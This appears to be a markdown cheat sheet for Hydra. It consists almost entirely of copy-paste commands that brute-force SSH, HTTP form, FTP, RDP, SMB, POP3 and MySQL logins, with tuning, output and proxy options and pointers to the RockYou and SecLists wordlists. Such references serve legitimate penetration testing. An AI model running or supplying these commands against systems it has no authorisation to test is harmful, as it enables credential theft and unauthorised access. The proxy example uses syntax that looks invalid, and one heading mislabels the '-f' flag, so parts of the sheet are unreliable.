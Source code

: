 ```yaml
---
title: Hydra
tags:
  - hydra
  - cheatsheet
---
```


Hydra is a fast and flexible password-cracking tool that supports numerous protocols to attack various authentication services. It's widely used in penetration testing to perform brute-force attacks on login credentials.

## 1. Basic Usage

### 1.1 Brute-Force SSH Login

```bash
hydra -l username -P /path/to/passwords.txt ssh://192.168.1.1
# Attempts to brute-force SSH login using a username and password list.
```

### 1.2 Brute-Force HTTP Form Login

```bash
hydra -l admin -P /path/to/passwords.txt 192.168.1.1 http-form-post "/login.php:username=^USER^&password=^PASS^:F=incorrect"
# Attempts to brute-force HTTP POST form with the specified parameters.
```

## 2. Common Protocols

### 2.1 FTP Brute-Force

```bash
hydra -l admin -P /path/to/passwords.txt ftp://192.168.1.1
# Brute-forces FTP login.
```

### 2.2 RDP Brute-Force

```bash
hydra -l administrator -P /path/to/passwords.txt rdp://192.168.1.1
# Brute-forces RDP login.
```

### 2.3 SMB Brute-Force

```bash
hydra -l admin -P /path/to/passwords.txt smb://192.168.1.1
# Brute-forces SMB login.
```

## 3. Advanced Options

### 3.1 Using a Username List

```bash
hydra -L /path/to/usernames.txt -p password ssh://192.168.1.1
# Uses a list of usernames with a single password.
```

### 3.2 Limit Connection Rate

```bash
hydra -l admin -P /path/to/passwords.txt -t 4 ssh://192.168.1.1
# Limits the number of parallel connections to 4.
```

### 3.3 Specify a Port

```bash
hydra -l admin -P /path/to/passwords.txt -s 2222 ssh://192.168.1.1
# Uses a non-default port (2222 in this case).
```

## 4. Output Options

### 4.1 Save Results to a File

```bash
hydra -l admin -P /path/to/passwords.txt ssh://192.168.1.1 -o results.txt
# Saves successful attempts to 'results.txt'.
```

### 4.2 Show Only Successful Attempts

```bash
hydra -l admin -P /path/to/passwords.txt ssh://192.168.1.1 -f
# Stops after finding the first valid password.
```

## 5. Advanced Brute-Forcing

### 5.1 Brute-Force POP3 Login

```bash
hydra -l admin -P /path/to/passwords.txt pop3://192.168.1.1
# Brute-forces POP3 login credentials.
```

### 5.2 Brute-Force MySQL Login

```bash
hydra -l root -P /path/to/passwords.txt mysql://192.168.1.1
# Attempts to brute-force MySQL login.
```

## 6. Proxy and Tuning

### 6.1 Use a Proxy

```bash
hydra -l admin -P /path/to/passwords.txt -o results.txt -s 8080 -m /proxy socks4://127.0.0.1:9050 ssh://192.168.1.1
# Routes connections through a SOCKS proxy.
```

### 6.2 Increase Verbosity

```bash
hydra -l admin -P /path/to/passwords.txt -V ssh://192.168.1.1
# Enables verbose mode to see each attempted login.
```

## 7. Useful Wordlists

- **SecLists**: [SecLists GitHub Repository](https://github.com/danielmiessler/SecLists)
- **RockYou**: Commonly used password list, often found pre-installed with Kali Linux.

## 8. References

- [Hydra GitHub Repository](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra Documentation](https://github.com/vanhauser-thc/thc-hydra/blob/master/README.md)
